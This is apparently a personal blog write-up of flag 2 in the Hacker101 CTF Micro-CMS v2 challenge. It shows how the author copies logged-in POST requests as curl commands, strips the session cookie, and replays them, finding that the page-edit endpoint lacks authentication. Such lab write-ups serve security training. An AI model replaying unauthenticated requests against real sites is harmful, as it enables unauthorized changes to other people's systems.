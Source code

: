 ```yaml
---
title: Hacker 101 CTF Micro-CMS v2 - Flag 2
published: true
---
```


Following on from [flag 1](https://ruddles.github.io/Hacker101-CTF-Micro-CMS-v2-flag-1); this is a writeup of flag 2 in [Hacker 101 CTF](https://ctf.hacker101.com/) Micro-CMS v2. If you're looking to follow along then I assume you're all logged in and have hit Go on the challenge.

# Finding a vulnerability

After completing flag one I spent some time clicking around mapping out the site (that didn't take long) and doing some basic dir busting to see if I could find anything interesting. Long story short, I didn't find anything of note, so back to looking at the obvious pages.

Digging around in the markdown section to see if there are any injection points I could attack (there's a good post on some attack vectors [here](https://medium.com/taptuit/exploiting-xss-via-markdown-72a61e774bf8)), it looks like there's fairly good input sanitisation now. Another dead end.

So, going back to clicking around the site I had a thought. We can see the `GET` requests are protected with a login page, what about the `POST` requests? There's 2 on the site:

- Creating a page
- Editing a page.

# Posting to Create

Usually I'd do something like this with burp suit, however I'm currently trying out kali on WSL2, so until later this year there's no easy way to get UI up and running. Instead I'm browsing in windows and using the tools in the WSL2 instance. So no burp, however the network tab in chome dev tools should do it.

The first thing to do is to log in (see my previous post on how to do this) and navigate to the create page at `/page/create/`. Open the dev tools in chrome (`F12`) and go to the network tab. I usually tick the "Preserve log" option at the top so redirects don't wipe the results out. Finally fill in some details and submit the page.

Now we have a payload we can right click on the post in the network tab and select "Copy as cURL (bash)"

![Create page]({{ site.url }}/assets/post-images/h101-cms-v2/CreatePage.png)

Now I tend to paste this into a text editor (I use vscode for everything) to make editing a bit easier.

This request is of course logged in, and we want to test if the same request still worked logged out. All we need to do is delete the line starting `-H 'Cookie:` so we're no longer logged in on the request and paste it into the terminal and hit enter:

```bash
curl 'http://35.190.155.168/90bf00b6e6/page/create' \
  -H 'Connection: keep-alive' \
  -H 'Cache-Control: max-age=0' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Origin: http://35.190.155.168' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Sec-GPC: 1' \
  -H 'Referer: http://35.190.155.168/90bf00b6e6/page/create' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  --data-raw 'title=Test&body=Something+in+here' \
  --compressed \
  --insecure
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/login">/login</a>.  If not click the link.%
```

Nope, that's protected. Moving on....

# Editing a page

Just like before: we're logged in, create the request, copy it, remove the cookie line and paste it into the terminal:

```bash
curl 'http://35.190.155.168/bf98748dfa/page/edit/4' \
  -H 'Connection: keep-alive' \
  -H 'Cache-Control: max-age=0' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Origin: http://35.190.155.168' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Sec-GPC: 1' \
  -H 'Referer: http://35.190.155.168/bf98748dfa/page/edit/4' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  --data-raw 'title=test&body=something+else+in+here' \
  --compressed \
  --insecure
^FLAG^FLAG_HASH_HERE$FLAG$%
```

And that gives us a flag. Looks like the edit page wasn't correctly protected. One more flag to go on this challenge.

Any comments or suggestions? Chat with me on [twitter](https://twitter.com/RuddlesDev)
